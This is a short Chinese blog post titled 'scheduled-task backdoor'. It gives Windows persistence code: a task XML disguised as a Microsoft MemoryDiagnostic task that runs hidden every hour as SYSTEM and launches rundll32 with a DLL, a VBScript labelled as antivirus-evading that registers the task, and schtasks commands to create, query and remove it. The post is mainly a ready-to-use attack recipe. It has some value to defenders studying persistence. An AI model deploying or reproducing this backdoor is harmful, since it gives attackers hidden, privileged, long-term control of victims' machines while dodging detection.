 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-10-04T14:00:20+08:00
title: 计划任务 Backdoor
---
```


<!--more-->

Updated on 2019-10-04

## 123.xml
```xml
<?xml version="1.0" ?>
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Source>Microsoft Corporation</Source>
    <Author>Microsoft Corporation</Author>
    <URI>\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT1H</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2000-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>StopExisting</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>0</Priority>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\rundll32.exe</Command>
      <Arguments>main.dll msg</Arguments>
    </Exec>
  </Actions>
</Task>
```

### Reference
* https://docs.microsoft.com/zh-cn/windows/win32/taskschd/task-scheduler-schema
* https://docs.microsoft.com/zh-cn/windows/security/identity-protection/access-control/security-identifiers

## 注册任务

### 脚本（免杀）

#### 123.vbs

```
Set service = CreateObject("Schedule.Service")
service.Connect

Set file = CreateObject("Scripting.FileSystemObject").OpenTextFile("123.xml")
text = file.ReadAll
file.Close

Set rootFolder = service.GetFolder("\")
rootFolder.RegisterTask "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents", text, 6, , , 5
```

```bash
cscript.exe //Nologo 123.vbs

wscript.exe：输出至 Windows，
cscript.exe：输出至 Console。
```

#### Reference
* https://ss64.com/vb/filesystemobject.html
* https://docs.microsoft.com/zh-cn/dotnet/api/microsoft.visualbasic.constants
* https://docs.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/filesystemobject-object
* https://github.com/DoctorLai/VBScript_Obfuscator

### 工具
```
schtasks.exe /create /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f /xml 123.xml
schtasks.exe /query  /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /v /fo list
schtasks.exe /delete /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f
```
